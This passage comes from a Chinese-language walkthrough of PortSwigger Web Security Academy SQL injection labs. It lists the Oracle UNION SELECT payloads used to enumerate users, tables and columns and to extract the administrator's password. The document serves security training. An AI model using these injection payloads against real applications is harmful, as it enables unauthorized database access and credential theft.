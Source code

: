 先测试出字段 ![image-20250711184701760](D:\ctf wp\portswigger.assets\image-20250711184701760.png)

查看一下库名（用户名）：**category=Lifestyle' union select '1',username from all_users--**

![image-20250711185051793](D:\ctf wp\portswigger.assets\image-20250711185051793.png)

其中还能查看自己的用户是peter：**category=Lifestyle' union select '1',user from dual--**

再爆表：**category=Lifestyle' union select '1',table_name from user_tables--**

![image-20250711185608855](D:\ctf wp\portswigger.assets\image-20250711185608855.png)

爆字段：**category=Lifestyle' union select '1',column_name from user_tab_columns where table_name='USERS_OBKNHE'--**

![image-20250711190002782](D:\ctf wp\portswigger.assets\image-20250711190002782.png)

获取字段：**category=Lifestyle' union select '1',PASSWORD_TZLNYE from USERS_OBKNHE where USERNAME_YCBRET='administrator'--**

![image-20250711190154295](D:\ctf wp\portswigger.assets\image-20250711190154295.png)

拿到密码 登录结束



## 7.实验室：SQL 注入 UNION 攻击，确定查询返回的列数

![image-20250711215237286](portswigger.assets/image-20250711215237286.png)
